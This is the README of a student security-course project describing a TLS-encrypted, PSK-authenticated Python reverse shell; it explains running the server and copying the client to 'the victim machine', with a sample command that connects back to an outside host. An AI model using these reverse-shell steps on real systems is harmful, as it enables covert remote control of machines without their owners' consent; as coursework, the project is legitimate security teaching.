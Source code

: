 # Wireless Systems Security final project

*Authors: Pau de las Heras and Eric Roy*

*This is the final project of the Wireless Systems Security course from
the ML and Cybersecurity for Internet-Connected Systems MSc at EPSEM-UPC*

**Disclaimer:** this code is published under the MIT license and only for
educational purposes. We are not responsible for any unethical usage of these
scripts.

---

## Outline

We enhance an existing [reverse shell application](https://github.com/frezazadeh/Security-Course-Labs/tree/main/Lab1-Reverse-shell)
by integrating critical security measures like TLS encryption and authentication.

## Features

This is a reverse shell that works over TLS, where the server is authenticated
by the client using a self-signed certificate (which the client has the
public key, otherwise it would be useless), and the client is authenticated
by the server using a pre-shared key (PSK).
Only one client can be connected at a time.

## Usage

**Requirements:** modern version of Python 3. Only builtin modules are used.

On your server (a machine which the victim/client can connect to) run:
```
python3 server.py
```

On the victim machine, copy *only* the `client.py` file (since copying
the rest would lead to the client knowing server keys). Run:
```
python3 client.py
```

Default values are used everywhere, but you can tweak them as much as you
want. For example:

```
python3 server.py --port 5555 --certificate-path /home/user/file.crt --password 123456789
python3 client.py --server asi.ericroy.net --port 5555 --password 123456789 --public-key-path /home/user/file.pub
```

<!-- REQUIREMENTS
SSL/TLS Encryption:
    Use Python’s ssl module to wrap the sockets.
    Generate or manage self-signed certificates.
    Ensure that data in transit is encrypted and secure.

Authentication Mechanism:
    Implement a method (e.g., password-based, challenge-response, or public/private key pairs) to validate connecting clients.
    Integrate the authentication process immediately after the SSL/TLS handshake and before any shell commands are executed.
-->
<!--
You must share the GitHub link to your project, ensuring that the code is fully commented and includes a complete README section.
In addition, you should provide a link to a demo video where you explain, step by step, the scenario, the problem, your code, and the final execution.
If you are working in a team, each team member must explain a specific part of the project in the video.
-->
